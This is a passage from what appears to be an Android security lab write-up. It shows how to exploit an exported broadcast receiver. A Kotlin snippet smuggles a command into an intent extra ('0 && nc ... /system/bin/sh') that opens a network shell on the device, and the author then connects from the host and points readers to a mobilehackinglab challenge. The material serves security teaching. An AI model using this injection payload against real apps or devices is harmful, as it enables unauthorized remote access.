 We have successfully achieved code execution through a exported broadcast receiver. Let's try if we can get a shell.

```
    class MainActivity : AppCompatActivity() {

        override fun onCreate(savedInstanceState: Bundle?) {
            super.onCreate(savedInstanceState)
            setContentView(R.layout.activity_main)

            Intent("PRIORITY_ACTION").also { intent ->
                intent.putExtra("getTime", "0 && nc -p 1234 -L /system/bin/sh -l")
                intent.putExtra("key","priority")
                sendBroadcast(intent)
            }
        }
    }
```

Let's run this app and see if this works.

<img src="/static/images/posts/Broadcast/9.png" style="zoom: 50%;" />

Now let's try using nc in our host.

<img src="/static/images/posts/Broadcast/10.png" style="zoom: 67%;" />

Woah we got the reverse shell.

Now as a challenge i encourage you guys to solve this challenge by mobilehackinglab

https://www.mobilehackinglab.com/course/lab-iot-connect

